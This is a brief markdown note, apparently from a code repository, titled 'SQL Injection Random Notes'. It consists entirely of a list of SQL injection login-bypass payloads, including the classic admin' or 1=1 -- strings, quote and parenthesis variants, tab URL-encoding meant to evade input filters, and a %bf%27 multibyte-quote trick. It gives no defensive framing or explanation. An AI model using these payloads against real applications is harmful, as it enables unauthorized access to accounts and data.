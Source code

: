 ## SQL Injection Random Notes

-  admin' or 1=1 -- 
-  admin" or 1=1 -- 
-  ") or ("1"="1
-  admin' or 1=1  limit 1 -- 
-  URL encoding bypass of tab (HT, \t) . admin'%09or%091=1%09--%09
-  admin%27||1%3D1#
-  '\xBF'(URL-encoded as %bf%27) : %bf%27 or 1=1 --